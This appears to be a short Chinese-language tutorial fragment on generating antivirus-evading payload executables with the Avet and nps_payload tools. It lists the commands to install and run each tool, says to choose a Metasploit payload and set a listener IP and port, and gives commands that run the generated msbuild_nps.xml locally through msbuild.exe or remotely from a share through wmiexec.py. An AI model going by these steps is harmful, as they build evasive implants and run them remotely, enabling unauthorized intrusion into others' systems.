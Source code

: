 使用Avet生成免杀文件  

  

启动

  

`python ./avet.py`选择要使用的payload编号  

设置监听ip端口以及其他配置

生成免杀可执行文件

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810100658.png)

## nps_payload  

### 下载安装

`git clone https://github.com/trustedsec/nps_payload  
cd nps_payload/  
pip install -r requirements.txt`

###  

### 生成  

  
|  
  
---|---  
`python nps_payload.py  
  
选择1生成msf类型payload  
  
选择payload类型  
  
设置IP和端口  
  
生成`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810100659.png)  

###  

### 执行  

`1. 本地加载执行:  
- %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe\msbuild_nps.xml  
  
2. 远程文件执行:  
  
wmiexec.py:''@cmd.exe /c start
%windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe
\\\<share>\msbuild_nps.xml`

  
